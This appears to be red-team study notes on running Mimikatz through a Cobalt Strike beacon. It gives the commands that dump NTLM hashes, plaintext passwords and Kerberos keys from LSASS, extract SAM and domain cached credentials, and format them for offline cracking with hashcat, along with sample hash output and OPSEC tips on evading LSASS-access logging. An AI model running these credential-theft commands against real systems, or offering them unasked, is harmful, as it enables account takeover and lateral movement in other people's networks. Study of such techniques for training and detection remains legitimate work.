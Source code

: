 

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

Dump the Kerberos encryption keys of currently logged on users, it's more common to use Kerberos in modern systems so we can blend in easier.  These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

> [!info] 
> There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.
> The order is :
> 
> ```
aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
rc4_md4           59fc0f884922b4ce376051134c71e22c
rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c2c

> [!warning] 
> Requires elevated privileges.

> [!danger] 
> OPSEC: This modules will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 


## Domain Cached Credentials

The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.
```
2100|Domain Cached Credentials 2 (DCC2), MS Cache 2|$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f
```

> [!warning] 
>  DCC is much much slower to crack than NTLM.

